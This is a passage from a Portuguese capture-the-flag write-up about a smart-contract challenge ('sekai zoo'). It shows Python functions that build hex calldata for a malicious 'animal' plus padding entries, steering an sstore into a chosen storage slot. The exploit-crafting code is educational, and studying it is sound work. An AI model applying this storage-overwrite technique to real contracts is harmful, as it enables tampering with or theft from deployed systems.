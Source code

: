 ![Memória do contrato](/images/ottoboni-sekai-zoo/count.png)

Montar esse esquema não é tão complicado quanto parece.
Abaixo temos uma função em Python que gera o hexa do primeiro animal.
Aqui não tem nada de muito misterioso,
simplesmente criamos um animal normalmente
com os valores corretos.
`idx` precisa ser o endereço onde o nome vai ficar
e o nome vai ser o valor que queremos
que o animal 8 tenha como `idx`.
Vamos ver como chegar nesse número em breve.
```
def create_evil_animal():
    op = "10"
    idx = "00"
    index = "0320"
    name = "<valor que queremos para idx>"

    animal = op + idx + f"{len(name) // 2:04x}" + index + name
    return animal
```

Depois disso precisamos criar animais vazios
pra incrementar `animal_count`.
A seguinte função faz exatamente isso.
Aqui criamos vários animais iguais no mesmo índice
e com um nome vazio.
O objetivo aqui é realmente
só incrementar `animal_count`,
os valores em si não importam muito.
```
def create_empty_animals(n):
    op = "10"
    idx = "01"
    index = "eeee"
    name = ""

    animal = op + idx + f"{len(name) // 2:04x}" + index + name
    return n * animal
```

# O número mágico

Agora sim,
controlamos todos os 32 bytes de `idx`.
Pra que que servia isso mesmo?
Ah sim,
temos que setar o primeiro argumento do `sstore` pra 1.
```
sstore(
    add(add(slot_hash, mul(2, idx)), 1),
    add(animal_counter, 1)
)
```
